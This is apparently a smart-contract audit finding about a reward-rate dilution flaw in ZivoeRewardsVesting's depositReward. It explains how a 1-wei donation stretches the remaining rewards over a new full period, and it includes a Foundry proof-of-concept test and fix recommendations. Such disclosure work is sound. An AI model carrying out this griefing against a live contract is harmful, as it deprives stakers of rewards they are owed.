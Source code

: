Tangy Concrete Chimpanzee

medium

# A malicious actor can reduce the reward rate in ZivoeRewardsVesting, depriving stakers of the rewards they rightfully deserve within the same timeframe.

## Summary

## Vulnerability Detail

When users participate in the Initial Tranche Offering by depositing in the junior or senior tranche, they are entitled to 1zJTT and 1pzJTT, as well as 1zSTT and 3pzSTT, respectively. The pzSTT and pzJTT are the rewards for participating in the tranches, rewards redeemable in proportion to the total capital contributed during the ITO, and the 5% of ZVE total supply allocated to rewards vesting.

Once the ITO ends or the funds get migrated before the end of the ITO, whichever happens first, the users get to claim the tranche token w.r.t. the amount of stablecoins deposited into either of the tranches. In addition, a vesting schedule is created. The vesting schedule dictates how the redeemed rewards (pzSTT and pzJTT) from the ITO are distributed over time. 

Starting at the vesting cliff or the end of the vesting schedule, the user can claim the ZVE proportional to the pzSTT and/or pZJTT they own. For refraining from withdrawing their tokens starting from the cliff period, the users are rewarded based on that.

**⏩⏩ _This means the time with which the user kept their tokens in the contract is directly proportional to the rewards they get._**

```solidity
     function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
        ..............

        if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
            rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
>>>>    } else {
            uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
            uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
            rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
        }

        ..............
    }
```

As it turns out, anyone can call the donate rewards to the contract by calling [`ZivoeRewardsVesting::depositReward`()](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352C5-L367C6). This function recalculates the rewards to be distributed and resets how long the newly calculated reward is distributed if the current reward distribution hasn't ended yet. Since this ties into the reward rate, the stakers will be entitled to lesser rewards in the same timeframe as when the rewards haven't been deposited. 

_🛑🛑 This is especially serious because those who are not invested can donate 1 wei of rewards in the contract. This means the cost and barrier of entry for this attack is limited_

**How would this attack play out?**
- ZVL calls `ZivoeRewardVesting::addReward()` to add the rewards and set the duration.
- Say 100,000 DAI is to be distributed in 100 days. ZVL then calls `ZivoeRewardVesting::depositReward()` accordingly. This effectively means the reward rate is 1000 DAI per day.
- 0n the 98th day, when 97,000 DAI have been distributed, a malicious actor calls `ZivoeRewardVesting::depositReward()` with 1wei of DAI, because the reward period for the previous reward deposit has not ended, the leftover is aggregated to the new deposit, in this case (1 + 3000e18). According to the calculation, this is to be shared over the reward duration, which was initially set to 100 days. The reward rate changes from 1000 DAI per day to 30 DAI per day ((3000e18 + 1) / 100), a 97% reduction from the previous value.

## Impact

The users are entitled to lesser rewards over the same period than they would have been entitled to. Over 100 days, the users are entitled to 100,000 DAI, but they are now entitled to 97,090(97000 DAI + (30 DAI * 3 days)), losing out on 2,910 DAI in 3 days. 

## Proof of Concept

_Add this in Test_ZivoeRewardsVesting.sol_

```solidity
    function test_ZivoeRewardsVesting_depositReward_substate_rewardsRipping() public {
        uint256 deposit = 100_000 ether;

        // Pre-state.
        uint256 _preDAI = IERC20(DAI).balanceOf(address(vestZVE));

        (
            uint256 rewardsDuration,
            uint256 periodFinish,
            uint256 rewardRate,
            uint256 lastUpdateTime,
            uint256 rewardPerTokenStored
        ) = vestZVE.rewardData(DAI);

        assert(block.timestamp >= periodFinish);

        // First depositReward().
        mint("DAI", address(bob), deposit);
        assert(bob.try_approveToken(DAI, address(vestZVE), deposit));

        hevm.expectEmit(true, true, false, true, address(vestZVE));
        emit RewardDeposited(DAI, deposit, address(bob));
        assert(bob.try_depositReward(address(vestZVE), DAI, deposit));

        // Post-state.
        assertEq(IERC20(DAI).balanceOf(address(vestZVE)), _preDAI + deposit);

        (
            rewardsDuration,
            periodFinish,
            rewardRate,
            lastUpdateTime,
            rewardPerTokenStored
        ) = vestZVE.rewardData(DAI);

        assertEq(rewardsDuration, 30 days);
        assertEq(periodFinish, block.timestamp + rewardsDuration);

        //Reward Rate is in seconds, this converts it to a day
        emit log_named_uint("Upon deposit of Rewards, the current reward rate is ", (rewardRate * 1 days)/1 ether);

        //Fast forward 27 days

        hevm.warp(periodFinish - 3 days);

        console.log(unicode"\nAfter a 27 day Reward Distribution Period, Another reward deposit by a malicious actor\n");

        //Another depositReward().
        mint("DAI", address(bob), 1);
        assert(bob.try_approveToken(DAI, address(vestZVE), 1));

        hevm.expectEmit(true, true, false, true, address(vestZVE));
        emit RewardDeposited(DAI, 1, address(bob));
        assert(bob.try_depositReward(address(vestZVE), DAI, 1));

        assertEq(IERC20(DAI).balanceOf(address(vestZVE)), _preDAI + deposit + 1);

        (
            rewardsDuration,
            periodFinish,
            rewardRate,
            lastUpdateTime,
            rewardPerTokenStored
        ) = vestZVE.rewardData(DAI);

        assertEq(rewardsDuration, 30 days);
        assertEq(periodFinish, block.timestamp + rewardsDuration);

        emit log_named_uint("Upon deposit of Rewards, the current reward rate is ", (rewardRate * 1 days)/ 1 ether);
    }
```

## Code Snippet

```solidity
    function depositReward(address _rewardsToken, uint256 reward) external updateReward(address(0)) nonReentrant {
        IERC20(_rewardsToken).safeTransferFrom(_msgSender(), address(this), reward);

        if (block.timestamp >= rewardData[_rewardsToken].periodFinish) {
            rewardData[_rewardsToken].rewardRate = reward.div(rewardData[_rewardsToken].rewardsDuration);
        } else {
            uint256 remaining = rewardData[_rewardsToken].periodFinish.sub(block.timestamp);
            uint256 leftover = remaining.mul(rewardData[_rewardsToken].rewardRate);
            rewardData[_rewardsToken].rewardRate = reward.add(leftover).div(rewardData[_rewardsToken].rewardsDuration);
        }

        rewardData[_rewardsToken].lastUpdateTime = block.timestamp;
        rewardData[_rewardsToken].periodFinish = block.timestamp.add(rewardData[_rewardsToken].rewardsDuration);
        emit RewardDeposited(_rewardsToken, reward, _msgSender());
    }
```

## Tool used

Manual Review & Foundry Testing

## Recommendation
1. Use a weighting system determined by which is more, leftover or the new deposit and these weights are used in calculating the new reward rate.
2. New reward deposits should only be accepted if the current distribution is exhausted.